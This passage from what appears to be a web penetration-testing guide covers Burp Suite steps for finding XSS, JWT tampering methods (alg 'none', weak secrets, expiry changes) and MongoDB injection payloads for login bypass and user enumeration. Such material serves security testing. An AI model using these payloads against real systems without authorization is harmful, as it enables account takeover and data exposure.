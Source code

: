 #### **C. Burp Suite Methodology**
```
1. Intruder → Positions → Clear
2. Add payload positions: §name§, §email§, §message§
3. Payloads → Add XSS payloads
4. Start attack
5. Check responses for reflected XSS
```

### **3. Authentication Bypass Testing**

#### **A. JWT Token Manipulation**
```http
GET /api/users/profile
Authorization: Bearer <manipulated_token>
```

#### **B. Token Analysis in Burp Suite**
```
1. Decoder → Paste JWT token
2. Decode Base64
3. Modify payload (change user ID, admin status)
4. Re-encode and test
```

#### **C. Common JWT Attacks**
```javascript
// 1. Algorithm Confusion
// Change "alg": "HS256" to "alg": "none"

// 2. Weak Secret
// Try common secrets: "secret", "admin", "password"

// 3. Token Expiry Bypass
// Modify "exp" timestamp to future date
```

### **4. SQL/NoSQL Injection Testing**

#### **A. MongoDB Injection Payloads**
```json
// Login Bypass
{
  "email": {"$ne": null},
  "password": "anything"
}

// User Enumeration
{
  "email": {"$regex": ".*"},
  "password": "anything"
}

// Boolean Injection
{
  "email": "admin@test.com",
  "password": {"$gt": ""}
}
```
